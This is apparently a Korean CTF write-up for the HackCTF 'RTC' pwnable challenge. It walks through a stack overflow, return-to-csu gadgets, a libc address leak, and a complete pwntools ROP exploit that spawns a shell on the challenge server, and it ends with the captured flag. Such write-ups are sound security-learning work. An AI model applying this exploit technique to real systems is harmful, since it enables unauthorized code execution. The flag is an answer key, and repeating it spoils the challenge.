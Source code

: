 # RTC

---

우선 `main()`을 보자.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "Hey, ROP! What's Up?\n", 0x15uLL);
  return read(0, &buf, 0x200uLL);
}
```

bof 취약점이 발생한다. ROP 문제가 되겠다. 우선 쓸 수 있는 함수는 `read()`와 `write()`가 있다.

쓸만한 gadget들을 찾아보자.
```gdb
gdb-peda$ pd __libc_csu_init
Dump of assembler code for function __libc_csu_init:
...
   0x00000000004006a0 <+64>:	mov    rdx,r13
   0x00000000004006a3 <+67>:	mov    rsi,r14
   0x00000000004006a6 <+70>:	mov    edi,r15d
   0x00000000004006a9 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x00000000004006ad <+77>:	add    rbx,0x1
   0x00000000004006b1 <+81>:	cmp    rbx,rbp
   0x00000000004006b4 <+84>:	jne    0x4006a0 <__libc_csu_init+64>
   0x00000000004006b6 <+86>:	add    rsp,0x8
   0x00000000004006ba <+90>:	pop    rbx
   0x00000000004006bb <+91>:	pop    rbp
   0x00000000004006bc <+92>:	pop    r12
   0x00000000004006be <+94>:	pop    r13
   0x00000000004006c0 <+96>:	pop    r14
   0x00000000004006c2 <+98>:	pop    r15
   0x00000000004006c4 <+100>:	ret  
...  
End of assembler dump.
```

다음 코드 중 밑부분을 통해서 r12에 `read()` 혹은 `write()`의 got를, r13에는 3번째 인자를, r14에는 2번째 인자를, r15에는 3번째 인자를 넣은 후 코드의 윗부분을 활용한다면 `read()`와 `write()`를 원하는대로 사용할 수 있다. 이를 통해서 다음과 같이 익스할 것이다.


(1) write함수를 통해서 read의 got를, 즉 read함수의 주소를 출력한다.<br>
(2) (1)의 정보를 이용해서 libc_base, system함수, "/bin/sh" 문자열의 주소를 계산한다.
(3) "/bin/sh" 문자열을 인자로, system함수로 이동한다.

(1)과 (2)사이에 계산할 시간이 필요하기 때문에  (1)이 끝난 이후 다시 `main()`으로 ret할 것이다.

익스에 필요한 정보들은 다음과 같다.
```gdb
gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/26.RTC/rtc:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601050 R_X86_64_COPY     stdin@@GLIBC_2.2.5
0000000000601018 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
0000000000601028 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
0000000000601030 R_X86_64_JUMP_SLOT  setvbuf@GLIBC_2.2.5
```

**csu\_up=0x4006a0 <br>
csu\_down=0x4006ba <br>
read\_got=0x601020 <br>
write\_got=0x601018 <br>**

```gdb
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xf7250 < read>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0x45390 < system>
gdb-peda$ q
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ strings -tx libc.so.6 | grep "/bin/sh"
 18cd57 /bin/sh
```

**read\_offset=0xf7250** <br>
**system\_offset=0x45390** <br>
**binsh\_offset=0x18cd57**

```gdb
gdb-peda$ p main
$1 = {<text variable, no debug info>} 0x4005f6 <main>
```
**main=0x4005f6**

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ ROPgadget --binary rtc | grep "pop"
...
0x00000000004006c3 : pop rdi ; ret
0x00000000004006c1 : pop rsi ; pop r15 ; ret
...
```

**pr=0x4006c3** <br>
**ppr=0x4006c1**

다음과 같은 익스코드를 짜서 익스에 성공할 수 있었다.
```python
from pwn import*

#p=process('./rtc')
p=remote('ctf.j0n9hyun.xyz', 3025)

csu_up=0x4006a0
csu_down=0x4006ba
read_got=0x601020
write_got=0x601018
read_offset=0xf7250
system_offset=0x45390
binsh_offset=0x18cd57
main=0x4005f6
pr=0x4006c3
ppr=0x4006c1

p.recvuntil('\n')

payload='A'*0x48
payload+=p64(csu_down)
payload+=p64(0)
payload+=p64(1)
payload+=p64(write_got)
payload+=p64(6)
payload+=p64(read_got)
payload+=p64(1)
payload+=p64(csu_up)
payload+='A'*56
payload+=p64(main)

p.sendline(payload)
sleep(0.1)

read_address=u64(p.recv(6).ljust(8,'\x00'))
libc_base=read_address-read_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

log.info("libc_base is "+str(hex(libc_base)))
log.info("system_address is "+str(hex(system_address)))

p.recvuntil('\n')

payload2='A'*0x48
payload2+=p64(pr)
payload2+=p64(binsh_address)
payload2+=p64(ppr)
payload2+=p64(0)
payload2+='A'*8
payload2+=p64(system_address)

p.sendline(payload2)
sleep(0.1)

p.interactive()
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ vi ex.py
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3025: Done
[*] libc_base is 0x7f860038c000
[*] system_address is 0x7f86003d1390
[*] Switching to interactive mode
$ cat flag
HackCTF{4ll_r1ght_c5u_1n1t!}
```

**flag: HackCTF{4ll_r1ght_c5u_1n1t!}**

